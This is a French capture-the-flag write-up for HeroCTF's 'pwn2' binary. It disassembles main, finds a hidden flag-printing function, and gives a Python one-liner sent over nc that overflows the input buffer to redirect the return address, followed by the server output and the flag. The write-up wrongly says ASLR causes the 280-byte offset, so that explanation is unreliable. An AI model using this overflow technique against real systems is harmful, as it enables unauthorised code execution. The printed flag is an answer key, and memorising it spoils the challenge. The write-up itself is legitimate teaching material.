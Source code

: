 Pour cet ultime challenge de pwn, on a uniquement accès au binaire, et non plus au code source comme lors du premier challenge.

Commençons par se renseigner sur ce binaire :
```bash
$ file pwn2 
pwn2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=2fc8ebe2b5eee35be7e503226787911a6a55a1c0, for GNU/Linux 3.2.0, not stripped
```
Nous avons donc un binaire 64bits pour Intel (x86-64), non strippé.

On ouvre ce binaire dans notre désassembleur favori (Cutter, IDA, Ghidra, Radare2...) et on regarde la fonction main():
```assembly
120: int main (int argc, char **argv);
; var char **var_120h @ rbp-0x120
; var int64_t var_114h @ rbp-0x114
; var char *s @ rbp-0x110
; var size_t var_4h @ rbp-0x4
; arg int argc @ rdi
; arg char **argv @ rsi
0x004011c0      push    rbp
0x004011c1      mov     rbp, rsp
0x004011c4      sub     rsp, 0x120
0x004011cb      mov     dword [var_114h], edi ; argc
0x004011d1      mov     qword [var_120h], rsi ; argv
0x004011d8      lea     rdi, str.Donne_moi_ton_nom_little_hackerz_: ; 0x402030 ; const char *format
0x004011df      mov     eax, 0
0x004011e4      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x004011e9      lea     rax, [s]
0x004011f0      mov     rsi, rax
0x004011f3      lea     rdi, [0x00402054] ; const char *format
0x004011fa      mov     eax, 0
0x004011ff      call    __isoc99_scanf ; sym.imp.__isoc99_scanf ; int scanf(const char *format)
0x00401204      lea     rax, [s]
0x0040120b      mov     rdi, rax   ; const char *s
0x0040120e      call    strlen     ; sym.imp.strlen ; size_t strlen(const char *s)
0x00401213      mov     dword [var_4h], eax
0x00401216      lea     rax, [s]
0x0040121d      mov     rsi, rax
0x00401220      lea     rdi, str.Ca_sera_pas_si_simple_cette_fois_jeune___s ; 0x402058 ; const char *format
0x00401227      mov     eax, 0
0x0040122c      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x00401231      mov     eax, 0
0x00401236      leave
0x00401237      ret
```
On peut utiliser le décompiler si l'assembleur ne nous semble pas clair (pas de honte à ça !) :
```c
undefined8 main(undefined8 argc, char **argv)
{
    char **var_120h;
    int64_t var_114h;
    undefined8 var_4h;
    
    var_114h._0_4_ = (undefined4)argc;
    printf("Donne-moi ton nom little hackerz : ");
    __isoc99_scanf(0x402054, (int64_t)&var_114h + 4);
    strlen((int64_t)&var_114h + 4);
    printf("Ca sera pas si simple cette fois jeune \"%s\"\n", (int64_t)&var_114h + 4);
    return 0;
}
```
On continue de se balader et on remarque une fonction intéressante !
```bash
$ nm pwn2 
00 00 00 00 00 40 11 82 T afficherFlagG4NG
[...]
```
Voyons voir celle-ci de plus près :
```assembly
62: sym.afficherFlagG4NG ();
0x00401182      push    rbp
0x00401183      mov     rbp, rsp
0x00401186      push    rbx
0x00401187      sub     rsp, 8
0x0040118b      call    geteuid    ; sym.imp.geteuid ; uid_t geteuid(void)
0x00401190      mov     ebx, eax
0x00401192      call    geteuid    ; sym.imp.geteuid ; uid_t geteuid(void)
0x00401197      mov     esi, ebx
0x00401199      mov     edi, eax
0x0040119b      call    setreuid   ; sym.imp.setreuid
0x004011a0      lea     rdi, str.cat_flag.txt ; 0x402008 ; const char *string
0x004011a7      call    system     ; sym.imp.system ; int system(const char *string)
0x004011ac      lea     rdi, str.Point_faible_:_trop_fort. ; 0x402015 ; const char *s
0x004011b3      call    puts       ; sym.imp.puts ; int puts(const char *s)
0x004011b8      nop
0x004011b9      add     rsp, 8
0x004011bd      pop     rbx
0x004011be      pop     rbp
0x004011bf      ret
```
Cette fonction nous donnera le flag sur le serveur !

On constate dans le main que l'on peut écrire sans limite dans le buffer d'input, et on va s'en servir pour overflow le buffer de 256 caractères et réécrire l'adresse de retour : on veut ainsi appeler la fonction `afficherFlagG4NG` qui a pour addresse `0x0000000000401182`.

Dans l'idée on pourrait alors se dire qu'il faut écrire 256 caractères suivis de notre adresse (sans oublier le little endian) et que le tour est joué ! Eh oui... Mais non.

En effet, ici l'ASLR (Address Space Layout Randomization) est activée, ce qui a pour effet de mettre un espace dans la stack entre notre buffer et l'adresse retour de la fonction main. Il nous faudra finalement 280 caractères avant d'avoir la main sur l'adresse de retour.

On peut alors résoudre le challenge grâce à Python (eh oui, encore et toujours)
```python
$ python -c "print('A')*280+'\x82\x11\x40\x00\x00\x00\x00\x00'" |  nc heroctf.fr 3001
Donne-moi ton nom little hackerz : Ca sera pas si simple cette fois jeune "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
FFlag: HeroCTF{4_l177l3_h4rd3r_bu7_571ll_345y_0101}
Point faible : trop fort.
```
HeroCTF{4_l177l3_h4rd3r_bu7_571ll_345y_0101}
